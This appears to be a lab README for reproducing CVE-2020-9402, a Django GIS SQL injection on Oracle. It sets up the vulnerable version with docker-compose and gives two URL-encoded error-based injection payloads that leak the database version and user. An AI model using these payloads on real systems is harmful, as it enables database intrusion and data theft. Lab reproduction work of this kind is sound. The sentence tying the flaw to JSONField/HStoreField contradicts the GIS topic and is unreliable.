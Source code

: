 # Django GIS functions and aggregates on Oracle  SQL Injection Vulnerability (CVE-2020-9402)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates.

Reference link:

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

The vulnerability requires the developer to use JSONField/HStoreField; moreover, the field name of the queryset can be controlled. Django's built-in application Django-Admin is affected, which gives us an easy way to reproduce the vulnerability.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.0.3 by executing the following command:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, assess the website `http://your-ip:8000/vuln/`

Then add `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
You can see that the bracket has been injected successfully, and the SQL statement reports an error:

![](1.png)

Or you can assess the other website `http://your-ip:8000/vuln2/`, and add `0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

You can also see that the SQL statement reports an error:

![](2.png)
